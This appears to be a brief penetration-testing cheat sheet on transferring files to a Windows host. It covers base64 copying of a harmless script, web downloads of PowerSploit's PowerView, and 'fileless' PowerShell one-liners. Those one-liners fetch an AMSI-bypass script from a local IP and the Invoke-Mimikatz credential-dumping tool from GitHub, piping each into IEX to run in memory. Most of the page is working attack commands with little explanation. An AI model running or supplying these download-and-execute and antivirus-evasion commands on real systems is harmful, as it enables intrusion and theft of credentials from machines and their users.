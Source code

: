 ### Copying Using Base64

Verify the MD5 hash of the target file:

```bash
garffff@garffff:~/test$ more hello.py 
print("hello world!")
gareth@gareth:~/test$ md5sum hello.py 
01c0a257edd3c2e95c25d80a4c18c5cc  hello.py
```

Base64 the target file :

```bash
garffff@garffff:~/test$ cat hello.py |base64 -w 0;echo
cHJpbnQoImhlbGxvIHdvcmxkISIp
```

In PowerShell, echo the base64 output to a location:

```bash
PS C:\users\public\downloads> [IO.File]::WriteAllBytes("C:\Users\Public\hello.py", [Convert]::FromBase64String("cHJpbnQoImhlbGxvIHdvcmxkISIp"))
```

Verify MD5 of target file:

```bash
PS C:\users\public\downloads> Get-FileHash C:\Users\Public\hello.py -Algorithm md5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             01C0A257EDD3C2E95C25D80A4C18C5CC                                 
```

### Web Downloads

Malicious files can be detected by Defender:

```bash
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
PS C:\users\public\downloads> wget 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1' -o PowerView_wget.ps1
PS C:\users\public\downloads> curl 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1' -o PowerView_curl.ps1
```

### Web Downloads - Fileless (memory)

Need to bypass AMSI to load Malicious files into memory:

```bash
PS C:\users\public\downloads> (New-Object System.Net.WebClient).DownloadString('http://192.168.0.51/amsi.txt') | IEX
```

Then load into memory:

```bash
PS C:\users\public\downloads> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

```

